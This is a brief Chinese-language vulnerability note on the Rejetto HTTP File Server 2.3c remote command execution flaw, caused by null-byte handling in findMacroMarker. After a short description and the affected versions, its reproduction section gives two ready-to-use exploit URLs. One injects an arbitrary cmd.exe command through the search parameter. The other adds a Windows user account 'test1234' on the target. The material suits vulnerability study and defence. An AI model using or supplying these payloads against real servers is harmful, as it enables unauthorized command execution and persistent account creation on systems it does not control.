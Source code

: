 # Hfs 远程命令执行漏洞

### 一、漏洞简介

Rejetto HTTP File Server 2.3c及之前版本中的parserLib.pas文件中的‘findMacroMarker’函数中存在安全漏洞，该漏洞源于parserLib.pas文件没有正确处理空字节。远程攻击者可借助搜索操作中的‘%00’序列利用该漏洞执行任意程序。

### 二、漏洞影响

2.3c以前的2.3x版本

### 三、复现过程

`http://url:8080/?search==%00{.exec|cmd.exe /c [Command-String].}`

`http://url:8080/?search==%00{.exec|cmd.exe /c net user test1234 1234 /add.}`